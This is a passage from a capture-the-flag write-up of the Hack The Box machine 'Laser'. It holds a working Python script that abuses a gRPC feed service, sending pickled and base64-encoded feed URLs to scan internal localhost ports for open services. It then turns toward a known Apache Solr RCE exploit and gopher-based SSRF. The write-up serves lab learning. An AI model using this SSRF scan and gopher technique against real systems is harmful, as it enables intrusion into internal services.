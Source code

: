 Since we can connect to the localhost via `grpc` and we can define URL with any port in it, we do a small bruteforce, if it was an error we will ignore the port and if it returns Pushing Feeds, we can considered that as open port.

Instead of Trying each and every port. I decided to check common ports.

> [https://github.com/krish512/Common-Ports/blob/master/ports.list](https://github.com/krish512/Common-Ports/blob/master/ports.list)

```python
import service_pb2
import service_pb2_grpc
import grpc
import pickle
import base64
import json

all_ports=['15','17','18','18','19','19','21','22','23','25','80','81','123','389','443','636','989','990','1433','1499','2022','2122','2222','2375','2376','2380','2480','2483','2484','2638','3000','3001','3020','3306','3389','3389','3500','3999','4000','4100','4200','4243','4244','4444','4500','4505','4506','5000','5001','5004','5005','5037','5432','5500','5601','5666','5667','5672','5800','5900','5984','5999','6000','6082','6379','6653','6660','6661','6662','6663','6664','6665','6666','6667','6668','6669','6888','6888','7474','7777','8000','8001','8002','8005','8008','8080','8089','8081','8123','8139','8140','8172','8222','8333','8443','8889','8983','8999','9000','9001','9006','9042','9050','9051','9092','9200','9500','9800','9999','10050','10051','11211','11214','11215','15672','18091','18092','27017','27018','27019','28015','29015','33848','35357']
for ports in all_ports:
    json_data={
        "feed_url" : "http://localhost:{}".format(ports)
        }
    send_data = json.dumps(json_data)
    Serialized_Data = pickle.dumps(send_data) 
    b64_encoded = base64.b64encode(Serialized_Data)
    #print (b64_encoded)
    channel = grpc.insecure_channel('10.10.10.201:9000')
    stub = service_pb2_grpc.PrintStub(channel)

    get_data = service_pb2.Content()
    get_data.data = b64_encoded
    try:
        response = stub.Feed(get_data)
        #print(response.SerializeToString())
        print ("Port {}".format(ports))
        print (response)
    except Exception as E:
        pass
```

The result of that script was port `8983` which was default port for Apache Solr service, what can we do with this? I searched for an exploit on the Exploit-Database, 

![Untitled](/img/htb-laser/Untitled%205.png)

Then I stumbled upon the [this exploit](https://www.exploit-db.com/exploits/47572) and which can be used to get the RCE on the machine **but** after analyzing the exploit I realized it was sending a `POST` request, ah here we go again, how are we supposed to send a `POST` request if we can barely interact with the Apache Solr. To my surprise, the `gopher` protocol was accepted by the server.
